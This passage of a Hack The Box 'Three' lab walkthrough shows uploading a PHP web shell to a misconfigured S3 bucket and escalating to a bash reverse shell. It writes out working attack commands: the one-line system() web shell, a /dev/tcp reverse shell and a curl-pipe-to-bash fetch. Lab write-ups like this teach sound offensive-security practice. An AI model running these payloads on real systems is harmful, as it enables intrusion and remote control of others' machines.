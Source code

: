     ```shell
    aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
    ```

    ![](../assets/img/htb-starting-point/11.png)

11. Now we are going to create a **one-liner PHP** and upload it to the S3 bucket, the `system()` function use the URL parameter `cmd` as an input, to run **any linux command**

    ```shell
    echo '<?php system($_GET["cmd"]); ?>' > shell.php
    ```

    ```shell
    aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
    ```

12. Now go navigate the URL with the our shell.php (**Change the host record from `TARGET_IP s3.thetoppers.htb` to `TARGET_IP thetoppers.htb`)

    ```
    http://thetoppers.htb/shell.php?cmd=id
    ```

    ![](../assets/img/htb-starting-point/12.png)

    As the above picture shows it runs the linux command `id` through the `cmd` URL parameter

13. Now let's create a reverse shell `shell.sh` containing the following **bash reverse shell payload** which will connect back to our local machine via the `tun0` IP address on port `1337`

    ```bash
    #!/bin/bash
    bash -i >& /dev/tcp/<TUN0_IP>/1337 0>&1
    ```

14. Then we start a `ncat` listener on our local port `1337`

    ```bash
    nc -nvlp 1337
    ```

15. Now we host the `shell.sh` on a `python3 http.server` by running the following command in the directory where `shell.sh` locates

    ```bash
    python3 -m http.server 8000
    ```

17. By using our one-liner PHP, insert the command we would like to execute in the `cmd` parameter, here we use the `curl` utility to fetch the bash reverse shell file from our local host, then pipe it to `bash` to execute the file

    ```
    http://thetopper.htb/shell.php?cmd=curl%20<VM_IP_Address>:8000/shell.sh|bash
    ```

    ![](../assets/img/htb-starting-point/13.png)
    